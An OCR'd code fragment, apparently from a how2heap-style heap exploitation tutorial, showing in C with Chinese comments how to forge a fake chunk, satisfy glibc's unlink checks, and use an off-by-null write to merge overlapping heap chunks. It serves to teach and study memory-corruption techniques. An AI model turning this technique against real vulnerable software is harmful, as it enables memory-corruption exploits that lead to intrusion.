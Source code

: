 ```c
    // 第二步：释放利用堆块1，使得两个利用堆块合并，从而重新分配二者的size
    // 会被添加到unsortedbin末尾
    free(chunk1);

    // 第三步：重新分配两个利用堆块的size，使得可以操纵之前chunk的size
    // 意味着最开始的chunk2成为了现在的fake chunk
    chunk1 = malloc(0x498);
    chunk2 = malloc(0x458);

    chunk2[-5] = 0x4a1; // fake chunk's size

    // 第四步：恢复FD和BK
    FD = malloc(0x420); // FD
    BK2 = malloc(0x410); // BK
    

    // 第五步：满足fake_chunk->fd->bk = fake_chunk
    // 先将chunk2和FD_释放到unsortedbin，踩出FD_的bk
    free(FD);
    free(chunk2);
    // 再申请回来，同时部分写其bk指针使其满足fake_chunk->fd->bk = fake_chunk
    FD = malloc(0x420);
    chunk2 = malloc(0x458);
    *((char*)FD + 8) = 0;
    
    // 第六步：满足fake_chunk->bk->fd = fake_chunk
    // 由于最低覆写倒数第二字节为0，因此需要合并两个BK再重新分配size
    free(chunk2);
    free(BK2);
    free(BK1);

    // 申请回chunk2
    chunk2 = malloc(0x458);

    // 重新分配BK1和BK2的size
    BK1 = malloc(0x4f0);
    BK2 = malloc(0x330);

    // 通过BK1来写之前的BK2的fd
    *((char*)BK1 + 0x420) = 0;

    // 第七步：通过gap3(victim)来off by null同时写prev_size
    free(gap3);
    gap3 = malloc(0x18);
    gap3[2] = 0x4a0; // prev_size
    *((char*)gap3 + 0x18) = 0; 

    // 第八步：释放BK1，触发off by null漏洞，将chunk2、gap3(victim)、BK1合并
    printf("Before free, the fake chunk's size is 0x%lx.\n", chunk2[-5]);
    free(BK1);
    printf("After free, the fake chunk's size has been 0x%lx, proves that the three chunks have been merged.\n", chunk2[-5]);
    assert(chunk2[-5] == 0x9a1);    
}
```
